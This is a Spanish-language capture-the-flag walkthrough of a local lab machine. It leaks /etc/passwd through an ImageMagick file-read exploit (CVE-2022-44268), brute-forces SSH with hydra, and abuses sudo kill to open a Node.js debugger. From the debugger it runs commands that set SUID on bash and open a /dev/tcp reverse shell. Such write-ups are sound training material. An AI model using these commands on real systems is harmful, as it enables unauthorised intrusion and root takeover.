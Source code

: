 nmap:  443, 80, 22

![image](https://github.com/user-attachments/assets/49f75831-c32a-4554-9753-b7c610099ee0)


---
entramos a la pagina principal y nos da esto:

![image](https://github.com/user-attachments/assets/7e0cb7f2-b4e8-47a6-8a08-10226e7e6d2c)


hay una subida de imagen o pdf y encontré este exploit que roba metadatos: https://github.com/voidz0r/CVE-2022-44268

seguimos los pasos y subimos la imagen 1200x1200

![image](https://github.com/user-attachments/assets/1fa9aaf9-cfe5-4db4-b69d-23a73cd077bf)


después guardamos la foto desde la pagina subida y al guardarla nos dará muchos números.

![image](https://github.com/user-attachments/assets/a2472f55-bf63-499f-a542-2beb191ae383)


lanzamos este comando con el numero dentro de los ""

>python3 -c 'print(bytes.fromhex("con el numero que nos dio"))'

y nos dará el listado de "/etc/passwd" con un usuario llamado "lenam"

hacemos fuerza bruta

     - hydra -l lenam -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

nos da la contraseña: loverboy

![image](https://github.com/user-attachments/assets/f72bfc59-fd0a-4045-8ba8-c2d7e9a9a7d5)

dentro al hacer sudo -l aparece: "kill"

![image](https://github.com/user-attachments/assets/e5a0d4e9-ac1b-4ca7-a0b2-cd5a2b7a87d3)

al hacer un "ps aux" vemos que en el PID 53 se ejecuta un "index.js"

![image](https://github.com/user-attachments/assets/c6cfc13b-ad4f-4d5c-8cfe-179beb50b297)


buscamos en: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse

y vemos que podemos escalar con: kill -s SIGUSR1 nodejs-ps

![image](https://github.com/user-attachments/assets/16c17a4c-28fa-4d27-9154-40b98c1d9c6e)


que quedaría:  sudo kill -s SIGUSR1 49 (o según se ejecute en este caso 49)
ahora si ejecutamos: netstat -atunop vemos que se reinicia ya hora esta habitado el puerto 9229

![image](https://github.com/user-attachments/assets/6f69a3a4-d8f6-4f5b-ae2e-e64e50264c60)


nos conectamos por la IP y puerto que da:  node inspect 127.0.0.1:9229

dentro del debug ejecutamos: 

    - exec("process.mainModule.require('child_process').exec('chmod u+s /bin/bash')")

ahora salimos y ejecutamos el bash -p

![image](https://github.com/user-attachments/assets/191e37dc-13ec-4e4f-a04b-84e8155b9eb1)


pero no somos root absoluto, modificamos el código para una reverse shell

    - exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1\"')")

![[root absolute.png]]

y somos root!

